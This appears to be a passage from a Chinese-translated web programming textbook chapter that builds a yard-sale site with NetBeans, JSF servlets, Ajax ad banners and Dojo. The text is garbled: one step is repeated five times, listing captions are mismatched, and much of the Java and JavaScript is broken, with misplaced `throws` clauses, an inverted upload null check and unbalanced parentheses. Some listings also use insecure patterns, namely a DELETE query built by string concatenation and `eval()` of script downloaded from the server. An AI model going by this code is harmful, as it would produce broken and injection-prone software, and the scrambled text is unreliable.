14. 下一个任务是在页面中插入会话变量。会话变量用于在会话期间维护数据。例如，系统在访问 `Seller.jsp` 后记住卖家的 ID，因为 `PostItem.jsp` 在插入新记录时需要它。确保 `Seller.jsp` 被选中；双击 SessionBean 节点（如图 8.6.3 所示）。Session 类的内容将显示在编辑器中。在文件的最后一个 `import` 之后追加 `import YseModel.*;`，然后在 `init()` 函数之前插入以下代码。代码段的目的是声明一个 `saleID` 属性，它将由 `Seller.jsp` 设置并供 `PostItem.jsp` 使用。按 F11 编译。

## 第 8 章 Ajax 案例


图 8.6.3 将属性插入 Session

```java
private ID saleID;

public void setSaleID(ID id) {

saleID = id;

}

public ID getSaleID() {

return saleID;

}
```

15. 然后你将设置 `Seller.jsp` 页面的布局。点击 Seller.jsp 选项卡返回编辑。NetBeans 编辑器允许通过点击左标尺上的“+”和“-”按钮来折叠和提取代码。折叠头部片段和布局面板节点。将列表 8.6.4 中的代码输入到 `web-jsf: form binding="#{Seller.form1}" id="form1"` 行之后，右键点击编辑器并选择 Reformat Code（格式化代码）。NetBeans 将自动设置正确的缩进。

16. 现在你需要将头部片段移动到列表 8.6.4 主表的第一行。选择头部片段代码（它是代码中的一个 `div`，包含 `Header.jsp`）。建议将代码片段折叠为一行。按 Ctrl+X 删除头部片段，并将其粘贴到注释 `<!-- HEADER GOES HERE! -->` 正下方（通过按 Ctrl+V）。同样，将整个面板布局控制的代码段粘贴到注释 `<!-- LAYOUT PANEL GOES HERE! -->` 之后。

```html
<table width="800px" align="center" class="MainTable">
<tr>
<td>
<!-- HEADER GOES HERE! -->
</td>
</tr>
<tr>
<td>
<!-- LAYOUT PANEL GOES HERE! -->
</td>
</tr>
</table>
```

17. 接下来将处理许多与服务器控件样式相关的细节。转到页面片段的 `div` 代码。删除定义样式属性的字符串，因为不再需要其尺寸和绝对位置。点击 Design（设计）选项卡回到可视化编辑器，并确保选中了 `layoutPanel`。点击其属性列表中的 Style（样式）；将弹出的对话框（在左侧），确保选择了位置的 Relative（相对）模式。还将 Top 和 Left 设置为 `0px`。这样做可以确保 `layoutPanel` 留在表格单元格中。现在按 F11 编译项目并按 F6 运行。点击 Seller 链接跳转到 Seller 页面。布局应该显示图 8.6.1。

18. 最后一个任务是完成 Submit 按钮的配置。回到 `Seller.jsp` 的可视化编辑器。双击 Submit 按钮，并在事件处理函数中输入列表 8.6.5 中的代码。这段代码只是调用了 `YardSale` 的 `setValue()` 方法，然后调用 `persist()` 方法向数据库中插入一条新的旧货出售记录。在编辑器中右键点击并选择 Fix Imports（修复导入）。在修复 Time 和 Date 类的导入时，可能会有多个候选选项。确保选择了 `java.sql.Time` 和 `java.sql.Date`。然后按 F11 编译项目。

### 列表 8.6.4

`Seller.jsp` 的 HTML 表格布局

```java
YardSale sale = new YardSale();

sale.setValues(
  (String) this.txtName.getText(),
  (String) this.txtName.getText(),
  (String) this.txtStreetAddress.getText(),
  (String) this.txtCity.getText(),
  (String) this.txtState.getText(),
  (String) this.txtZip.getText(),
  (String) this.txtSSN.getText(),
  (Time) Time.valueOf((String) this.dropdownOpenTime.getValue()),
  (Time) Time.valueOf((String) this.dropdownCloseTime.getValue()),
  new Date(this.calendar.getSelectedDate()).getTime()),
  (String) this.txtDescription.getText()));

sale.persist();

this.getSessionBean1().setSaleID(sale.getID());

catch (Exception ex) {

  ex.printStackTrace();

  error(ex.toString());

  return null;

}
```

### 列表 8.6.5

Submit 按钮的实现

```java
return "case1"
```

19. 现在 `Seller.jsp` 页面已完成。按 F6 运行项目。通过点击门户页面上的 Seller 链接进入 `Seller.jsp`。填写一些示例数据并点击 Submit 按钮。

20. 点击项目面板中的 Services 选项卡。展开数据库节点（如果无法展开节点，需要先右键点击并选择 Connect），然后展开到 `TBL_YARDSALE`。右键并选择 View Table Contents（查看表格内容）。你将看到数据表中插入了一条新记录。

## 8.7 里程碑 4：上传图像和 Java Servlet

你的下一个任务是构建一个用于上传出售商品的页面。在本节中，你将学习使用一种名为 data table 的 JSF 服务器控件。你还将使用 Java Servlet 从数据库中检索图像。按照惯例，你将首先介绍基本的设计理念，然后进行实际操作。

在 `BigPeachYardSaleExpress` 中，出售商品的缩略图以二进制数组的形式存储在数据库中。名为 `FetchImage` 的 Java Servlet 用于从数据库检索图像并在生成 HTML 响应时将字节数组写入输出流。`FetchImage` 的源代码位于列表 8.7.1。该 servlet 接受两个参数：(1) ID，物品的标识符，以及 (2) `maxwidth`，显示的最大图像宽度。

## 第 8 章 Ajax 案例研究

```java
ServletOutputStream out = response.getOutputStream();

try {

    String id = request.getParameter("id");

    int maxWidth = Integer.parseInt(request.getParameter("maxWidth"));

    response.setContentType("image/jpg");

    out.write(this.retrieveImage(id, maxWidth));

} catch (Exception ex) {

    log(ex.toString());

} finally {

    out.close();

}
```

```java
/**
 * 处理 HTTP <code>GET</code> 方法。
 *
 * @param request servlet 请求
 * @param response servlet 响应
 */
protected void doGet(HttpServletRequest request, HttpServletResponse response) {
    throws ServletException, IOException
    processRequest(request, response);
}
```

```java
/**
 * 处理 HTTP <code>POST</code> 方法。
 *
 * @param request servlet 请求
 * @param response servlet 响应
 */
protected void doPostPost(HttpServletRequest request, HttpServletResponse response) {
    throws ServletException, IOException
    processRequest(request, response);
}
```

```java
/**
 * 返回 servlet 的简短描述。
 */
public String getServletInfo() {
    return "Short description";
}
```

### 列表 8.7.1

`FetchImage.java` 源代码（续）


配合数据表。`append()` 返回一个唯一标识数据表中每一行的行键（row key）。然后新行将获得数据表的焦点，随后的数据库操作将应用到该行。代码的其他部分相应地设置新记录中每列的值。

特别注意该函数如何处理图像文件的上传。通过调用函数 `upload().getBytes()`，你可以轻松地获取图片的字节数组。然后通过调用数据提供者的 `setValue()`，可以设置名为 `IMAGE` 的列的值。最后，调用 `commitChanges()` 将更改写入数据库。

列表 8.7.3 展示了图 8.7.1 中删除按钮的处理。该函数首先获取当前行的键。然后使用 JDBC `PreparedStatement` 执行 `DELETE` 语句。最后，它调用数据提供者（与数据表关联）的 `refresh()` 函数来更新数据表的内容。在充分理解 `PostItem.jsp` 的后端代码后，你现在可以进行实践了。

# 动手实践

1. 第一步是构建 Java Servlet，从数据库获取并输出 JPEG 图像。右键点击项目窗格中的 `BigPeachSaleExpression` 节点，选择 New（新建），然后选择创建一个 Servlet。将新 servlet 命名为 `FetchImage`。在其中输入代码：

```java
public String button1_action() {

try {

    RowKey key = this.tbl_itemDataProvider.appendRow();

    tbl_itemDataProvider.setCursorRow(key);

    ID id = new ID();

    tbl_itemDataProvider.setValue("tbl_item.ID", id.toString());
```


```java
tbl_itemDataProvider.setValue("tbl_item.SALEID",
    getSessionBean(1).getSaleID().toString());

tbl_itemDataProvider.setValue("tbl_item.PRICE",
    new BigDecimal((String) this.txtPrice.getText()));

tbl_itemDataProvider.setValue("tbl_item.DESCRIPTION",
    (String) this.txtDescription.getText());

tbl_itemDataProvider.setValue("tbl_item.KEYWORDS",
    (String) this.txtKeywords.getText());

if (fileUpload1.getUploadedFile() == null) {
    byte[] myfile = fileUpload1.getUploadedFile().getBytes();

    String contextType =
        fileUpload1.getUploadedFile().getContentType();

    if (contextType.indexOf("jpg") == -1 &&
        contextType.indexOf("image") == -1) {
        error("Error: the picture file must be either img or jpeg");
    }

    tbl_itemDataProvider.setValue("tbl_item.IMAGE", myfile);
} else {
    tbl_itemDataProvider.setValue("tbl_item.IMAGE", null);
}

tbl_itemDataProvider.commitChanges();
tbl_itemDataProvider.refresh();

this.txtDescription.setText("");
this.txtKeywords.setText("");
this.txtPrice.setText("");

} catch (Exception ex) {
    error(ex.toString());
}

return null;
}
```

列表 8.7.2  
添加按钮处理器源代码

# 8.7 里程碑 4：上传图像和 Java Servlet

```java
public String button2_action() {
    Connection conn = null;
    RowKey rowKey;

    try {
        conn = Utility.getDBConnection();
        rowKey = tableRowGroup1.getRowKey();

        tbl_itemDataProvider.setCurrentRow(rowKey);

        String id =
            (String) tbl_itemDataProvider.getValue("tbl_item.ID");

        PreparedStatement ps = conn.prepareStatement(
            "DELETE FROM TBL_ITEM WHERE ID='" + id + "'");

        ps.executeUpdate();
        conn.commit();
    } catch (Exception ex) {
        ex.printStackTrace();
    } finally {
        if (conn != null) {
            try {
                conn.close();
            } catch (SQLException ex) {
                error(ex.toString());
            }
        }
    }

    tbl_itemDataProvider.refresh();

    return null;
}
```

列表 8.7.3  
删除处理器源代码

# 8.7 里程碑 4：上传图像和 Java Servlet

## 8.7.1 控件中的 PostItem

| 名称 | 控件类型 | 标签 |
|---|---|---|
| txtPrice | 文本框 | 价格 |
| txtDescription | 文本框 | 描述 |
| txtKeywords | 文本框 | 关键字 |
| fileUpload1 | 文件上传 | 图像 |
| messageGroup | 文本框 | 消息 |
| btnAdd | 文本框 | 添加 |
| table1 | 表格 | 表格 |

3. 将 Layout Panel 拖入页面，并将其属性设置为 Grid Layout。将面板背景设置为浅黄色，如图 8.7.1 所示。

4. 将控件拖入 Layout Panel。

5. 接下来你为数据表设置数据源。点击项目窗格的 Services 标签，然后提取 bigpeach 节点。如果 bigpeach 未连接，右键点击节点并选择 connect，输入用户名和密码。选择 TBL_ITEM 并将其拖入 PostItem 的标题栏。你应该能看到 TBL_ITEM 的结构。

6. 显然，数据表中不需要这么多列。下一个任务是只选择与页面相关的列。右键点击数据表并选择 Table Layout。将不需要的列移动到左侧，仅保留以下列（右侧列表）：

- `TBL_ITEM.ID`
- `TBL_ITEM.PRICE`
- `TBL_ITEM.DESCRIPTION`
- `TBL_ITEM.KEYWORDS`

图 8.7.2  
设置 Table Layout

接下来，你将创建一个用于删除项目的列以及创建一个用于显示项目缩略图的列。点击对话框右侧的 New 按钮，创建一个列按钮，如图 8.7.2 左侧所示（将其 Header Text 设置为 Delete，Component Type 设置为 Button，Value Expression 设置为 Delete）。点击删除按钮将从数据库删除当前项目。

最后，点击 New 按钮，创建一个 ImageHyperlink 列，如图 8.7.1 右侧所示（将其 Header Text 设置为 Image，Component Type 设置为 Hyperlink，Value Expression 设置为 aaa）。你稍后将设置该列的 ImageURL 属性并移除作为 Value Expression 的 aaa。

现在点击 Image 列的任意单元格并选择 ImageHyperlink（属性面板显示 imagelink1 的属性，如图 8.7.3 所示）。将 imageURL 属性设置为以下内容：

```text
/FetchImage?id=${currentRow.value['tbl_item.ID']}&maxWidth=100
```

此代码段调用 FetchImage Servlet 来获取项目的图像。注意 `${}` 包裹了一个 Java 表达式，该表达式在生成数据表的每一行时会被求值。显然，它检索每行显示的项目的对应 ID。图像的最大宽度设置为 100 像素。

同样，将图像链接的 URL 属性设置为以下内容。这一次，将弹出一个新页面来显示更详细的图像，因为 maxWidth 设置为 800px。

```text
/FetchImage?id=${currentRow.value['tbl_item.ID']}&maxWidth=800
```

8. 再次点击选择 ImageLink，并删除其 Text 属性中的 aaa。将该属性的值设置为空字符串。

9. 实现 Add（添加）按钮。在可视化编辑器中双击 Add 按钮，并在相应的处理器函数中包含代码清单 8.7.2 中给出的代码（仅包含函数体）。在编辑器中点击右键并选择“fix imports（修复导入）”，然后按 F1 编译。如果编译器对名为 `getSessionBean()` 的函数报错，请将以下内容插入到 PostItem.java 的类体内。

```java
protected SessionBean getSessionBean() {
    return (SessionBean) getBean("SessionBean");
}
```

10. 双击表格中的任何一个 Delete（删除）按钮，输入代码清单 8.7.3 中提供的代码（仅包含函数体）。点击右键并选择“Fix Imports（修复导入）”，然后按 F1 编译。

11. 数据库编程尚未完成。PostItem.jsp 中数据表的数据提供者列出了存储在 TBL_ITEM 表中的所有可用项目。你必须为数据提供者的 SQL 查询附加 WHERE 子句。在 Visual Web Pack 中，服务提供两个层：数据提供者和缓存行集。

数据提供者下方的缓存行集管理 SQL 查询。如图 8.7.4 所示，在项目窗格中双击 PostItem.jsp 以确保已选中它。项目窗格下方有一个名为 Navigator（导航）的窗格（图 8.7.4 左侧）。提取 SessionBean 节点并双击 tbl_itemSet。SQL 编辑器将显示（如图 8.7.4 右侧所示）。在查询中追加新的一行（紧跟在 FROM 子句之后），然后关闭 SQL 编辑器并保存查询。显然，WHERE 子句保证了数据表中仅显示与当前销售活动相关的项目。`?` 表示传递给 SQL 查询的参数：

```sql
WHERE TBL_ITEM.SALEID = ?
```

你现在需要将参数的值传递给查询，即存储在会话变量中的 saleID（该变量由 Seller.jsp 在创建新销售活动时设置）。在项目窗格中双击 PostItem.jsp，点击编辑器的 Java 标签页以编辑其 Java 代码，并找到名为 `init()` 的函数。`init()` 函数负责在页面渲染到之前加载时初始化控件的值。在行 `// TODO - add your initialization code.` 之后插入以下代码。该代码使用行集提供的 `getString()` 函数来设置第一个（也是唯一的）SQL 参数的值。

```java
try {
    saleID = this.getSessionBean().getSessionID();
    String strSaleID = "unknown";

    if (saleID != null) {
        strSaleID = saleID.toString();
    }

    this.getSessionBean().tblItemRowSet(1, strSaleID);
} catch (Exception ex) {
    error(ex.toString());
}
```

代码清单 8.7.4  
PostItem.jsp 的 `init()` 函数参数源代码。你必须先将 saleID 从 ID 转换为 String，因为销售 ID 是作为字符串保存在数据库中的。

12. 最后一项工作是将 PostItem.jsp 挂钩到项目窗格，双击打开 PageItem.jsp。在编辑器上点击右键并选择 Navigation（导航）。将显示名为 faces-config.xml 的项目配置文件。根据 NetBeans 的版本，你可能会发现 PostItem.jsp 未包含在页面导航设计中。如果是，你需要点击名为 Page Layout（页面布局）的按钮来引入 PostItem.jsp。

Page Layout 按钮位于编辑器的工具栏上（默认情况下，工具栏上的按钮有 Page Flow、XML、范围过滤下拉列表和 Page Layout）。在导航方案中点击并提取 Seller.jsp 节点，并从其 Submit 按钮向导航图中的 PostItem.jsp 画一个箭头。按 F1 编译项目。

13. 按 F6 运行项目。点击 Seller 链接进入 Seller.jsp。填写销售事件的示例数据并点击 Submit 按钮。现在你的浏览器应该跳转到 PostItem.jsp。填写一个示例项目的数据（本书网站的 Resources/SalePictures 文件夹中有两个示例图像）并点击 Add。数据表控件中将出现一个关于该项目且带有项目缩略图的新行。

# 8.8 里程碑 5：动态横幅和 Ajax

本节介绍了如何使用 Ajax 丰富传统的 Web 应用程序。一个很好的例子是创建动态广告横幅。该横幅将能够定期从服务器下载广告片段。


横幅还可以执行伴随广告的 JavaScript。新广告可以上传到服务器，而无需重启即可生效。

要创建动态横幅，你必须通过以下步骤：

1. 你将修改 Header.jsp 片段，异步调用将被调用以下载广告内容。
2. 你将创建一个 Java Servlet 来响应异步调用。该 Servlet 将为每个请求随机检索广告（HTML 和 JavaScript 片段）。
3. 你将使用 HTML 和 Dojo 框架创建多个示例广告片段。

你首先检查上述步骤的设计问题。然后你将获得将动态横幅变为现实的体验。

## Header.jsp 的修改

回顾 Header.jsp 的主结构由一个包含两个单元格的表格组成。将在第二个单元格中放置一个名为 `headerDIV` 的 DIV 元素。`headerDIV` 用于显示广告。运行时，一段 JavaScript 代码将定期执行 XMLHttpRequest（XHR）从服务器检索横幅内容。图 8.8.1 显示了 XHR 代码和 header 片段的新 HTML 布局。

如代码清单 8.8.1 所示，当 header 片段加载时，JavaScript 代码调用 `setTimeout()` 定期调用 `getContents()`，后者用于检索广告。在 `getContents()` 中，创建一个 XMLHttpRequest 对象的实例。随后，将 `myCallback()` 挂钩到 XHR 的响应上。然后使用 GET 发送请求。当数据返回时，将调用 `myCallback()`。它检查 XHR 对象的就绪状态。如果是 4（成功），`myCallback()` 将用返回的数据替换 `headerDIV` 的 `innerHTML`。

# 8.8 阶段 5：动态广告幅与 Ajax


```javascript
try {
    xmlHttp.open("GET", "getAdBanner", true);
    xmlHttp.send(null);
} catch (e) {
    alert(e);
}

function callBack() {
    if (xmlHttp.readyState == 4) {
        var header = document.getElementById("headerDIV");
        var mydoc = xmlHttp.responseText;
        var idxSeparator = mydoc.indexOf("--HAS_SCRIPT--");

        if (idxSeparator > 0) {
            var htmlContent = mydoc.substring(0, idxSeparator);
            var jcontent = mydoc.substring(idxSeparator + 14);

            header.innerHTML = htmlContent;
            eval(jcontent);
        } else {
            header.innerHTML = mydoc;
            setTimeout("getHeaderContents()", 2000);
        }
    }
}
```

以及 JavaScript 代码段作为第二部分。为了使 JavaScript 代码段生效，使用了 `eval()` 来评估并执行下载的 JavaScript 代码段。

## Servlet getAdBanner

接下来，创建一个名为 `getAdBanner` 的 Java Servlet，用于从指定的系统文件夹中随机检索广告幅。列表 8.8.2 显示了 `getAdBanner` 的源代码。

该 Servlet 的实现主要包含两个方法：`processRequest()` 和 `getFiles()`。其中 `getFiles()` 被 `request()` 调用以获取 `/Resources/AdBanners` 文件夹下的文件名列表。

`getFiles()` 方法创建一个 `File` 对象来访问 `/Resources/AdBanners` 文件夹，然后调用 `list()` 获取文件夹内的文件名列表。要获取完全限定的文件路径，必须首先从 Servlet 的上下文中获取 `/resources/AdBanners/` URI 的真实路径。结果列表如下：

> 列表 8.8.1 Header.jsp 源代码（续）


```java
/** 处理针对 HTTP GET 和 POST 方法的请求。
 * @param request servlet 响应
 * @param response servlet 响应
 */
protected void processRequest(HttpServletRequest request,
    HttpServletResponse response) throws ServletException,
IOException {

response.setContentType("text/xml");
PrintWriter out = response.getWriter();

Random rand = new Random();
int idx = rand.nextInt(200);
ArrayList arScripts = getFiles();

// 1. 选择的文件
if(arScripts.size()>0) {
    idx %= arScripts.size();
} else {
    return;
}

// 2. 读取内容
File file = new File((String) arScripts.get(idx));
BufferedReader bsr = null;
String contents = "";
try {
    bsr = new BufferedReader(new FileReader(file));
    contents = "";
    String line = null;
    while ((line = bsr.readLine()) != null) {
        contents += line;
    }
} catch (Exception ex) {
    ex.printStackTrace();
    out.println(ex.toString());
} finally {
    if(bsr!=null) bsr.close();
    out.println(contents);
out.close();
```

> 列表 8.8.2 `getAdBanner` Servlet 源代码（续）

```java
private ArrayList<String> getFiles() {
  String realPath = this.getServletContext().realPath("/resources/AdBanners/");
  File dir = new File(realPath);
  ArrayList<String> arScripts = new ArrayList();
  String[] files = dir.list();
  if (files == null) return arScripts;
  for(String fileName:files) {
    String filePath = realPath + "/" + fileName;
    if(fileName.endsWith(".txt")) {
      arScripts.add(filePath);
    }
  }
  return arScripts;
}
```


最后封装在`ArrayList`中并返回给`processRequest()`。在`processRequest()`方法中，生成一个随机数来决定显示哪个广告。然后读取文件内容，并发送回调用者。

**广告示例**

最后，你将创建两个广告示例。列表 8.8.3 显示了一个由 JPEG 图像组成的示例横幅。随后的列表显示了第二个横幅，其内容为 JPEG 图像，但通过 JavaScript 代码段进行了增强。JavaScript 部分定义了一个`playit()`函数，它调用了`dojo.fx`包提供的`wipeIn()`和`wipeOut()`函数。`dojo.fx`包是 Dojo 框架的一部分，用于显示动画效果。

> 列表 8.8.2 `getAdBanner` Servlet 源代码（续）

> 列表 8.8.3 Banner 1 内容 (`banner.txt`)

## 动手实践

- 第一个任务是将 Dojo 框架复制到项目文件夹。打开项目文件夹。在`web`文件夹内创建一个名为`js`的文件夹。将 Dojo 1.0.2 版本（名为`dojo-release-1.2`的文件夹）复制到`js`文件夹中。该文件夹可以从教材网站下载（`Ch8/Resources/dojo-release-1.2/`）。

## 第 8 章 Ajax 案例研究


```javascript
--HAS_SCRIPT--
playit();
function playit(){
  dojo.fx.chain([
    dojo.fx.wipeOut({
      node: headerDIV,
      duration: 500
    }),
    dojo.fx.wipeIn({
      node: headerDIV,
      duration: 500
    })
  ]).playit();
}
```

| 列表 8.8.4 | Banner 2 内容 |
| :--- | :--- |
| (banner2.txt) | |

- 下一个任务是修改`Header.jspf`。在项目格中，展开`Web Pages`节点，双击`Header.jspf`进行编辑。点击 JSP 标签页以编辑源代码。在`Header.jspf`的第一个`<div>`语句之后输入以下代码。它加载了用于显示动画效果的 Dojo 框架。你可以通过列表 8.8.1 验证操作的正确性。

```html
<style type="text/css">
@import "dojo-release-1.0.2/dijit/themes/tundra/tundra.css";
@import "dojo-release-1.0.2/resources/dojo.css";
</style>
<script djparseLoad="true"
src="js/dojo-release-1.0.2/dojo/dojo.js"
type="text/javascript">
function dummy_func(){
  a = 1;
}
</script>
<script type="text/javascript">
dojo.require("dojo.parser");
dojo.require("dojo.fx");
</script>
```

## 8.8 阶段 5：动态广告幅与 Ajax

- 在 HTML 表格的第二个`<td>`元素中输入以下代码。它用于替换原始内容`<h2>Dynamic Ads. Here!</h2>`。

```html
<div id="HeaderDIV" valign="top">
  TO BE DISPLAYED
</div>
```

- 点击设计（Design）标签页，从服务器控件调色板的高级（Advanced）类别拖放一个 Script 组件。然后点击 JSP 标签页。输入列表 8.8.1 中的代码部分：

- 下一个任务是修改`Header.jspf`。在项目格中，展开`Web Pages`节点，双击`Header.jspf`进行编辑。点击 JSP 标签页以编辑源代码。在`Header.jspf`的第一个`<div>`语句之后输入以下代码。它加载了用于显示动画效果的 Dojo 框架。你可以通过列表 8.8.1 验证操作的正确性。

- 下一个任务是修改`Header.jspf`。在项目格中，展开`Web Pages`节点，双击`Header.jspf`进行编辑。点击 JSP 标签页以编辑源代码。在`Header.jspf`的第一个`<div>`语句之后输入以下代码。它加载了用于显示动画效果的 Dojo 框架。你可以通过列表 8.8.1 验证操作的正确性。

- 下一个任务是修改`Header.jspf`。在项目格中，展开`Web Pages`节点，双击`Header.jspf`进行编辑。点击 JSP 标签页以编辑源代码。在`Header.jspf`的第一个`<div>`语句之后输入以下代码。它加载了用于显示动画效果的 Dojo 框架。你可以通过列表 8.8.1 验证操作的正确性。

- 下一个任务是修改`Header.jspf`。在项目格中，展开`Web Pages`节点，双击`Header.jspf`进行编辑。点击 JSP 标签页以编辑源代码。在`Header.jspf`的第一个`<div>`语句之后输入以下代码。它加载了用于显示动画效果的 Dojo 框架。你可以通过列表 8.8.1 验证操作的正确性。

## 8.9 里碑 6：买家页面与 Dojo 框架

```html
<table align="center" class="MainTable" width="1000px" height="600px">
<tr>
<<td>
<div width="100%">
<jsp:directive.include file="Header.jspf"/>
</div>
</td>
</tr>
<tr>
<td colspan="2" height="100px"></td>
</tr>
<tr>
<td height="600px">
<iframe align="center" frameborder="0"
marginheight="0" marginwidth="0"
name="mapide" src="MapIDE.html"
width="100%" height="600px"/>
</td>
</tr>
</table>
```

- 列表 8.9.1 `Buyer.jsp` 的主要内容


- 图 8.9.1

买家信息面板的 GUI 设计

`Container`、`SplitContainer`、`ContentPane`和`DateTextBox`。一个名为`getDate`的函数通过客户端计算机的当前日期来初始化日期选择框的文本。初始化通过`Dojo.addOnLoad()`完成。网页依赖于 Dojo 框架提供的预定义样式文件集合；例如，主表格的样式使用了：

```html
<!DOCTYPE HTML PUBLIC "//W3C//DTD HTML 4.01//EN"
"http://www.w3.org/TR/html4/strict.dtd">
<html
<head>
  <title>Big Peach Map IDE</title>
  <script type="text/javascript" src="../js/dojo-release-1.0.2/dojo/dojo.js">

dojo.Config={parseLoad: true};
</script>
  <script type="text/javascript">
dojo.require("dojo.parser");
dojo.require("dojo.layout.LayoutContainer");
dojo.require("dojo.layout.SplitContainer");
dojo.require("dojo.layout.AccordionContainer");
dojo.require("dojo.layout.ContentPane");
dojo.require("dojo.form.TextBox");
dojo.require("dojo.form.ValidationTextBox");
dojo.require("dojo.form.FilteringSelect");
dojo.require("dojo.form.DateTextBox");
dojo.require("dojo.form.Button");
dojo.addOnLoad(getDate);

function getDate() {
  var currentTime = new Date();
  var year = currentTime.getFullYear()%100;
  year == (year < 38) ? 2000 : 1900;
  var month = currentTime.getMonth() + 1;
  var value = year+'--'+month+'--'+currentTime.getDate();
  var txtDate = dojo.byId("txtDate");
  txtDate.value = value;
}
</script>

<style type="text/css">
@import "../js/dojo-release-1.0.2/dojo/resources/dojo.css";
@import "../js/dojo-release-1.0.2/djit/themes/soria/soria.css";
@import "../js/dojo-release-1.0.2/djit/demos/mail/mail.css";
</style>
```

### 8.9.2 `MapIDE.html` 的初始内容（仅限买家信息）

（继续）

```html
</head>

<body class="soria">

  <div dojoType="dijit.layout.LayoutContainer" id="main">

    <div dojoType="dijit.layout.SplitContainer"

      layoutAlign="client"

      orientation="horizontal"

      sizerWidth="2"

      activeSizing="0"

      title="MapExplorer">

    <div dojoType="dijit.layout.AccordionContainer"

      sizeMin="20" sizeShare="20">

      <div dojoType="dijit.layout.AccordionPane" title="Buyer

        <form id="buyerInfoForm">

        <table>

          <tr>

            <td style="text-align:right;">

              <label for="txtStreet">街道:</label>

            </td>

            <td>

              <input id="txtStreet" name="txtStreet"

              dojoType="dijit.form.TextBox"

              size="30"

              type="text">

            </td>

          </tr>

          <tr>

            <td style="text-align:right;">

              <label for="txtCity">城市:</label>

            </td>

            <td>

              <input id="txtCity" name="txtCity"

              dojoType="dijit.form.TextBox"

              size="30"

              type="text">

            </td>

          </tr>

          <tr>

            <td style="text-align:right;">

              <label for="txtZip">邮编:</label>

            </td>

            <td>

              <input id="txtZip" name="txtZip"

              dojoType="dijit.form.TextBox"

              size="30"

              type="text">

            </td>

          </tr>

        </table>

        </form>
```

### 8.9.2 `MapIDE.html` 的初始内容（仅限买家信息）

```html
          <td style="text-align:right;">

              城市:

            </td>

          <td>

              <input id="txtCity" name="txtCity"

              dojoType="dijit.form.TextBox"

              size="30"

              type="text">

            </td>

          </tr>

          <tr>

            <td style="text-align:right;">

              邮编:

            </td>
```


```html
<td>
  <input id="txtZip" name="txtZip"
    dojoType="dijit.form.TextBox"
    size="30"
    type="text">
</td>
</tr>
</table>
</form>
```

```html
<td style="text-align:right;">
  街道:
</td>
<td>
  <input id="txtStreet" name="txtStreet"
    dojoType="dijit.form.TextBox"
    size="30"
    type="text">
</td>
</tr>

<tr>
  <td style="text-align:right;">
    邮编:
  </td>
  <td>
    <input id="txtZip" name="txtZip"
      dojoType="dijit.form.ValidationTextBox"
      size="10"
      invalidMessage="必须是5位或9位邮编"
      type="text">
  </td>
</tr>

<tr>
  <td style="text-align:right;">
    城市:
  </td>
  <td>
    <input id="txtCity" name="txtCity"
      dojoType="dijit.form.FilteringSelect"
      size="20">
      <option value="CA">CA</option>
      <option value="GA">GA</option>
      <option value="NY">NY</option>
      <option value="WA">WA</option>
    </select>
  </td>
</tr>

<tr>
  <td style="text-align:right;">
    日期:
  </td>
  <td>
    <input id="txtDate" name="txtDate"
      dojoType="dijit.form.DateTextBox"
      size="15"
      required="true">
  </td>
</tr>

</table>
</form>
```

- 列表 8.9.2 MapIDE.html 的初始内容（仅限买家信息）

```html
<div dojoType="dijit.layout.AccordionPane" title="Shopping Cart">
  购物车内容在此处
</div>

<div dojoType="dijit.layout.AccordionPane" title="Itinerary">
  行程计划内容在此处
</div>

</div>
</div>
</body>
</html>
```

## 8.10 里程 7：Map IDE 与 Google Maps

下一步是为在线购物实现一个全面的地图环境。它被称为 Map IDE（集成化开发环境）。在本节中，你将接触到 Google Maps API。你还将通过创建几个 Java Servlets 来进一步加强对服务器端技术的理解。你会发现，通过回调实现的 Ajax 异步特性与传统的命令式编程大不相同。你将会有机会使用 JavaScript 工作。当你完成本节的实操体验后，你将编写大约 200 行 JavaScript 代码。

你将按照图 8.10.1 所示，丰富 BigPeachYards-Express 的当前实现。买家可以指定多个搜索标准（例如，所需的购物日期和搜索半径）。一旦点击“搜索”按钮，BigPeachYards-Express 需要在 Map IDE 上显示所有相关的销售活动。买家可以点击任何活动，这将弹出另一个包含待售商品列表的窗口（包含商品的价格、名称、缩略图以及一个购买该商品的链接）。如果买家对某个商品感兴趣，只需点击订单链接，该商品就会进入购物车面板。购物车面板将显示所有已订单的信息以及支出总和。


图 8.10.1 Map IDE 与购物车

### 搜索销售活动的算法

技术上，最具挑战性的任务是根据买家的标准搜索销售活动。搜索过程分两个步骤：

1. 向名为 `searchSale` 的 Java Servlet 发送请求，以获取指定日期且位于买家所在州的庭院拍卖活动列表。结果被拼接并返回为 JSON 数组，以便客户端轻松解析信息。
2. 然后，客户端 JavaScript 将每个返回的销售活动地址发送到 Google Maps 服务，以确定从买家家庭的驾驶距离。如果销售活动符合买家指定的标准，则将其显示在 Map IDE 上。

你可能会问：为什么不在服务器端完成驾驶距离的评估呢？使用客户端作为中间中继似乎是冗余且复杂的。这种复杂处理的原因是，Google Maps 服务提供的地理编码服务（计算驾驶距离所需的））必须在客户端通过指定的 JavaScript API 调用。因此，你必须将搜索过程分为两个步骤。在接下来，你将检查 `searchSale` 存单元的逻辑。它的大部分源代码显示在列表 8.10.1 中。

如列表 8.10.1 所示，`searchSale` 存单元的功能是返回位于给定州并按给定日期安排的庭院拍卖活动列表。列表 8.10.1 中有两个主要函数。`processRequest()` 用于处理查询请求。它依赖于第二个函数即 `getSaleInJson()` 来从数据库中检索信息。`getSaleInJson()` 首先建立到数据库的 SQL 连接，然后动态构建 SQL 语句（注意其 `WHERE` 子句）。结果被拼接为 JSON 数组，可以被客户端 JavaScript 代码轻松解析。8.10.2 显示了该存单元可以构建的一个示例数组。

当候选销售活动的 JSON 数组发送到客户端时，必须调用一套完整的 JavaScript 函数来向 Google Maps 服务发送请求（以获取到用户每个家庭地址的驾驶距离）。当地图结果到达时，将对每个销售活动进行检查。位于指定半径内的活动将添加到 Map IDE 中。

所有与 Map IDE 相关的 JavaScript 函数都收集在一个名为 `MapOps.js` 的文件中。列表 8.10.3 显示了该文件的内容。为了确保你理解随后讨论中的 JavaScript 函数，请先查看全局变量列表。

- `map`：Google Maps 服务的实例。

```java
protected void processRequest(HttpServletRequest request,
                              HttpServletResponse response)
    throws ServletException, IOException {

  response.setContentType("text/html;charset=UTF-8");
  PrintWriter out = response.getWriter();
```

```java
//1. Get the parameters

String strStreet = request.getParameter("txtStreet");
String strCity = request.getParameter("txtCity");
String strZip = request.getParameter("txtZip");
String strState = request.getParameter("selState");
String strRadius = request.getParameter("txtRadius");
String strDate = request.getParameter("txtDate");

DateFormat df = new SimpleDateFormat("MM/dd/yy");
java.util.Date date = new java.util.Date();
```

```java
try {
  date = df.parse(strDate);
} catch (Exception ex) {
